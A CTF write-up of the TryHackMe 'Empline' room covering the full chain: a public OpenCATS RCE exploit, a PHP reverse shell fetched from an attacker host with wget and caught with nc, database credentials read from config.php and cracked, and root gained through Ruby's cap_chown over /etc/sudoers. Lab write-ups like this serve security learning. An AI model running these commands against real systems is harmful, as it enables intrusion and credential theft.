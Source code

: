 ```yaml
---
layout: post
title:  "Empline Writeup"
date:   2024-05-23 13:15:45 -0400
categories: tryhackme medium
tags: writeup tryhackme medium CTF
---
```

## Introduction
This is a medium challenge box on
[TryHackMe](https://tryhackme.com/r/room/empline){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!
{: .prompt-tip }

## Enumeration
### Port Scan
As always let's start with a port scan
```bash
rustscan -a VICTIM_IP -- -A -oA scan -sC
```
![rust-scan](/images/empline/empline-rustscan1.png)
![rust-scan2](/images/empline/empline-rustscan2.png)

There are only two ports open
- 22: SSH
- 80: HTTP

### Subdomains
> Did you fully investigate the homepage?
{: .prompt-tip}

By investigating the web page source on port 80 
we see the following

![subdomain](/images/empline/empline-subdomain.png)

Let's add this to `/etc/hosts` so we can access the new
subdomain

```
VICTIM_IP job.empline.thm empline.thm
```

![jobs-home](/images/empline/empline-jobs-empline-home.png)

## Initial Foothold
> Are there public exploits for this service?
{: .prompt-tip}

Let's check searchsploit for some exploits

```bash
searchsploit opencat
```

![searchsploit](/images/empline/empline-searchsploit.png)

Remote code execution is enticing, let's pull it and 
read the source

```bash
searchsploit -m 50585
cat 50585.sh
```

![exploit-src](/images/empline/empline-exploit-source.png)

Basically we provide a target and it'll upload a shell! 
Let's try it out

```bash
sh 50585.sh http://job.empline.thm/
```

![shell](/images/empline/empline-shell1.png)

It works! Only issue is we can't change directories and 
this isn't a full shell. For a better experience I'll 
upload a 
[php reverse shell](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}

```bash
# attacker machine, with shell.php in this directory
python3 -m http.server 80

# victim machine
wget http://ATTACKER_IP/shell.php
pwd
# /var/www/opencats/upload/careerportaladd

# attacker, listen
nc -lvnp 4444
```

We can see the directory `/upload/careerportaladd` so 
let's append that to the URL to run the shell

```
http://job.empline.thm/upload/careerportaladd/shell.php
```

Visit this site and we'll have a shell!

![php shell](/images/empline/empline-www-data-shell.png)

Stabilize and upgrade the shell with python3

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## Horizontal Escalation
> What other places could credentials be stored?
{: .prompt-tip}

Now we'll investigate php config files

```bash
cat /var/www/opencats/config.php | grep DATABASE
```

![db-creds](/images/empline/empline-db-creds.png)

With these creds we can check for available usernames 
and passwords

```bash
mysql -u james -p
```

```sql
use opencats;
select user_name, password from user;
```

![db-dump](/images/empline/empline-db-dump.png)

Now lets check if any of these hashes have been 
cracked before using 
[this website](https://crackstation.net/){:target="_blank"}{:rel="noopener noreferrer"}

![cred-crack](/images/empline/empline-cracks.png)

We have a hit! This password is reused by george so let's 
switch accounts and continue

![george-shell](/images/empline/empline-george-shell.png)

## Root
> Are there any files with interesting permissions 
> or capabilities?
{: .prompt-tip}

```bash
getcap -r / 2>/dev/null
```

![get-cap](/images/empline/empline-getcap.png)

Ruby has the cap_chown capability which allows it to 
change the ownership of files! To abuse this I referred to
[hacktricks for a template](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown){:target="_blank"}{:rel="noopener noreferrer"}

Let's give sudo permissions to george. First make 
`/etc/sudoers` writable by george

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/etc/sudoers")'
```

Add this to `/etc/sudoers`

```
%george ALL=(ALL:ALL) ALL
```
![sudoers-edit](/images/empline/empline-george-sudoers.png)

The sudoers file needs to be owned by root to function 
correctly, so let's revert these permissions

```bash
ruby -e 'require "fileutils"; FileUtils.chown(0, 0, "/etc/sudoers")'
```

If everything is set up correctly we should now be able 
to run `sudo` as george

```bash
sudo bash
```

![root-shell](/images/empline/empline-root-shell.png)

## Recap
Homepage inspection leads to a subdomain hosting a career 
service vulnerable to remote code execution. This 
initial foothold gives us access to php configuration 
files with database credentials. Horizontal escalation 
is achieved by cracking passwords from the database. 
Ruby is given the change ownership capability allowing 
us to modify system files, giving our user root 
permissions.
